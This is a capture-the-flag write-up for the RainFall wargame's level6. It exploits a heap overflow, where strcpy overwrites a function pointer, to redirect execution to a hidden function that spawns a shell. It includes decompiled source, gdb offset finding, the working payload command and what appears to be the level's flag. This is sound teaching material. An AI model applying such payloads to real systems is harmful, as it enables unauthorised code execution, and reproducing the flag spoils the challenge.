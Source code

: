 The binary allocates memory on the heap, stores a function pointer, and later calls it. It segfaults when run with no arguments, but prints Nope if an argument is passed.

We want to hijack the control flow and get it to call a hidden function n(), which executes system("/bin/sh") and gives us a shell.

step 1: Understand the Functions
There is a hidden function n() that calls system("/bin/sh"):
0x08048454 <n>: call 0x80483b0 <system@plt>
It is never called normally. But we want to execute it.

There is also a function m() that is actually called and just prints "Nope\n".
So the plan is: overwrite the function pointer that normally points to m() and make it point to n() instead.

Step 2: Understand the Heap Layout
Let’s disassemble main():
int main(int argc, char **argv) {
    char *buf = malloc(64);               // Allocate 64 bytes
    void (**func_ptr)() = malloc(4);      // Allocate 4 bytes for a function pointer
    *func_ptr = m;                        // func_ptr initially points to m()

    strcpy(buf, argv[1]);                 // ⚠️ Vulnerable: no bounds check

    (*func_ptr)();                        // Call the function pointer

    return 0;
}

This is a heap-based function pointer overwrite vulnerability.
Because strcpy() doesn't check bounds, if you provide more than 64 bytes in argv[1], it will:
Fill the first malloc(64) buffer (buf).
Then overflow into the memory directly after, which is the second malloc(4) — the one holding the function pointer.

Step 3: Find the Offset for Overwrite
We use a pattern to find out how many bytes are needed before we overwrite the function pointer:

```
level6@RainFall:~$ gdb level6
(gdb) run Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
Program received signal SIGSEGV, Segmentation fault.
0x41346341 in ?? ()
(gdb) info registers
eip            0x41346341       0x41346341
The EIP value 0x41346341 corresponds to offset 72 bytes.
```

So we need to overflow the heap with 72 bytes of padding, followed by the 4-byte address of n().

Step 4: Find the Address of n()

(gdb) info functions n
0x08048454  n
So the address we want to jump to is: 0x08048454.

Step 5: Craft the Exploit
Since the binary segfaults with no argument, we cannot use stdin easily. Instead, we pass the payload directly as an argument.

We construct it with:

72 bytes of padding ("A" * 72)

Address of n() in little-endian order: \x54\x84\x04\x08

Final payload:
level6@RainFall:~$ ./level6 $(python -c 'print "A" * 72 + "\x54\x84\x04\x08"')
f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d


